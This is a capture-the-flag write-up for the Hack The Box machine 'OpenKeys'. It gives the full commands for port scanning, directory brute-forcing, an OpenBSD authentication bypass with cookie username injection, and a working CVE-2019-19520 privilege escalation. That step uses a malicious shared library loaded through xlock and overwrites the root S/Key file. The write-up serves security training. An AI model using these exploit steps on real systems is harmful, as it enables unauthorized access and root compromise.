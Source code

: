 ```yaml
---
image: /assets/avatar/assets/openkeys.png
title: OpenKeys Writeup
author: Valerio Casalino
style: fill
color: danger
tags: [Writeups, Hackthebox]
description: Writeup for OpenKeys (Hackthebox)
---
```


# OpenKeys

As always... `nmap` that thing:

```bash
ports=$(sudo nmap -p- --min-rate=1000 -T4 10.10.10.199 | grep "^[0-9]" | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)
sudo nmap -p $ports -sC -sV 10.10.10.199
...
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.1 (protocol 2.0)
| ssh-hostkey:
|   3072 5e:ff:81:e9:1f:9b:f8:9a:25:df:5d:82:1a:dd:7a:81 (RSA)
|   256 64:7a:5a:52:85:c5:6d:d5:4a:6b:a7:1a:9a:8a:b9:bb (ECDSA)
|_  256 12:35:4b:6e:23:09:dc:ea:00:8c:72:20:c7:50:32:f3 (ED25519)
80/tcp open  http    OpenBSD httpd
|_http-title: Site doesn't have a title (text/html).
...
```

On port 80, we find a login page and no more info:

![image-20201105213128889](/assets/openkeys/image-20201105213128889.png)

So, we can use `gobuster`, or whatever alternative, to find some not indexed folder:

```bash
gobuster dir -w /usr/share/wordlists/discovery/directory-list-2.3-medium.txt -u http://10.10.10.199
```

![image-20201105213056896](/assets/openkeys/image-20201105213056896.png)

And we found `/includes`, which contains 2 files `auth.php` and `auth.php.swp`, which is a `vim` swap file, and, most importantly, readable! Since it is a binary file which showing the last changes made on a file, we can read them all with:

```bash
>>> vim -r auth.php.swp
...
$cmd = escapeshellcmd("../auth_helpers/check_auth " . $username . " " . $password);
...
$_SESSION["username"] = $_REQUEST['username'];
...
>>> strings auth.php.swp | head -n 2
b0VIM 8.1
jennifer
```

So, downloading that file, we can investigate on that:

```bash
file check_auth
...
check_auth: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /usr/libexec/ld.so, for OpenBSD, not stripped
...
```

It is a shared object for OpenBSD, and that means that it could be vulnerable to [an authentication bypass](https://securityaffairs.co/wordpress/94755/security/openbsd-security-flaws.html), and fortunately it is! The only thing to do it's to authenticate with `-schallenge:password` through `burp`:

![image-20201105220647715](/assets/openkeys/image-20201105220647715.png)

This means that the authentication worked! But we don't get any ssh key because no user is specified... The user name found in the `.swp` file was `jennifer`, so we can add `;username=jennifer` to the `PHPSESSID` to make `auth.php` parse it.

```
Cookie: PHPSESSID=...;username=jennifer
```

Copy the ssh key and access with user! Now, let's investigate on how to get `root`. Let's check the OpenBSD version:

```bash
uname -a
OpenBSD openkeys.htb 6.6 GENERIC#353 amd64
```

On the openBSD website, there is a [list of vulnerabilities](https://www.openbsd.org/errata66.html) for this version, and the [CVE-2019-19520](https://nvd.nist.gov/vuln/detail/CVE-2019-19520) worked as intended! We need to compile this file on the victim machine:

```c
// swrast_dri.c
#include <paths.h>
#include <sys/types.h>
#include <unistd.h>
static void __attribute__ ((constructor)) _init (void) {
    gid_t rgid, egid, sgid;
    if (getresgid(&rgid, &egid, &sgid) != 0) _exit(__LINE__);
    if (setresgid(sgid, sgid, sgid) != 0) _exit(__LINE__);
    char * const argv[] = { _PATH_KSHELL, NULL };
    execve(argv[0], argv, NULL);
    _exit(__LINE__);
}
```

This will change the `RUID`, `EUID` and `GUID` to 0, so `root`, when called. After we compile the file:

```bash
cc -fpic -shared -s -o swrast_dri.so swrast_dri.c && rm -rf swrast_dri.c
```

We need to set the `LIBGL_DRIVERS_PATH=.` to make `xlock` use our `swarst_dri.so`, instead of the real one. To do so, we just need to run these simple commands:

```bash
env -i /usr/X11R6/bin/Xvfb :66 -cc 0 &
echo id -gn | env -i LIBGL_DRIVERS_PATH=. /usr/X11R6/bin/xlock -display $display 
# Your password is: EGG LARD GROW HOG DRAG LAIN
echo "rm -rf /etc/skey/root ; echo 'root md5 0100 obsd91335 8b6d96e0ef1b1c21' > /etc/skey/root ; chmod 0600 /etc/skey/root" | env -i LIBGL_DRIVERS_PATH=. /usr/X11R6/bin/xlock -display :66 
env -i TERM=vt220 su -l -a skey
```

![image-20201106002129492](/assets/openkeys/image-20201106002129492.png)

..profit!
